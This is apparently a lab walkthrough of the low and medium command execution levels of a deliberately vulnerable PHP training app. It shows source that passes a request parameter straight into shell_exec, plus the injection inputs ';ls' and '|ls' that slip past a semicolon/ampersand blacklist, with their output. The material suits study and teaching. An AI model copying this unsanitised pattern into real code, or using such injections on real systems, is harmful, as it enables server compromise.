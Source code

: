 # Command Execution

## Low

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';   
    } 
}
?> 
```

This is fairly straight forward, and a classic example of unsanitised input being used in a sensitive context. The `$target` variable is taken straight from a request parameter, and inserted into a `shell_exec` command.

Since there is no sanitisation to evade, we can just insert our payload.

*Input:*
```
;ls
```

*Output:*
```
help
index.php
source
```

## Medium

```php
<?php
if( isset( $_POST[ 'submit'] ) ) {
    $target = $_REQUEST[ 'ip' ];

    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';  
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';  
    }
}
?> 
```

They've wised up a little now, and will no longer allow us to use `&&` or `;` to separate commands. Howevever, we can still use `|` to get our command in! Ordinarily, this would take the output of `ping` and use it as the input of our command. Any command that does not take input this way will work fine.

*Input:*
```
|ls
```

*Output:*
```
help
index.php
source
```

## High

*My kung fu is weak...*